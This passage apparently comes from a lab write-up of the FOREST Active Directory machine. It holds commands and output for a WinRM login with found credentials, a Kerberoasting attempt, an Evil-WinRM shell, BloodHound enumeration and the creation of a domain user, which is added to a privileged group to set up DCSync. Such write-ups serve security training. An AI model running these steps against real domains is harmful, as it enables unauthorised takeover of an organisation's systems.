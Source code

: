 
A shell was obtained via WinRM using the credentials `svc-alfresco:s3rvice`. The `(Pwn3d!)` status confirms successful code execution and initial foothold on the host.
```bash
nxc winrm 10.129.33.34  -u 'svc-alfresco' -p 's3rvice' 
WINRM       10.129.33.34    5985   FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local)
WINRM       10.129.33.34    5985   FOREST           [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
                                       
```
An attempt to perform Kerberoasting with `impacket-GetUserSPNs` using the `svc-alfresco` credentials was made, but no Service Principal Names were found for delegation.

```bash
impacket-GetUserSPNs -request htb.local/svc-alfresco:s3rvice  -dc-ip 10.129.33.34
Impacket v0.13.0.dev0+20250528.4535.5b338613 - Copyright Fortra, LLC and its affiliated companies 

No entries found!
```

The initial foothold was established using an interactive Evil-WinRM shell as the user `svc-alfresco`. This provided command execution on the Domain Controller.

```bash
 evil-winrm -i 10.129.33.34 -u svc-alfresco -p s3rvice  
```

The user flag `f255db6bd55478854cb2e96d9dc3b36e` was successfully captured from the `svc-alfresco` user's desktop.

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> cat user.txt
f255db6bd55478854cb2e96d9dc3b36e
```
Domain enumeration was performed using BloodHound-python with the `svc-alfresco` credentials. The `-c All` flag collected all available data for later analysis to identify privilege escalation paths.

```bash
bloodhound-python -u svc-alfresco -p 's3rvice' -d htb.local -v --zip -c All -dc forest.htb.local -ns 10.129.33.34
```


BloodHound analysis revealed a critical attack path. The group `Exchange Windows Permissions@htb.local` has `WriteDacl` privileges on the domain object, which can be leveraged to grant the `svc-alfresco` user the `DCSync` privilege, enabling full domain compromise.
![[Pasted image 20251021010704.png]]

### **ACL-based Privilege Escalation to DCSync Attack**.

A new user `i0n1c` with password `HackedForest1` was created and added to the `Exchange Windows Permissions` group to exploit its `WriteDacl` privilege on the domain object

```bash
*Evil-WinRM* PS C:\temp> upload PowerView-Dev.ps1
Evil-WinRM* PS C:\temp> Import-Module .\PowerView-Dev.ps1
*Evil-WinRM* PS C:\temp> net user i0n1c HackedForest1 /add /domain
*Evil-WinRM* PS C:\temp> net group "Exchange Windows Permissions"
net group "Exchange Windows Permissions" /add i0n1c
```
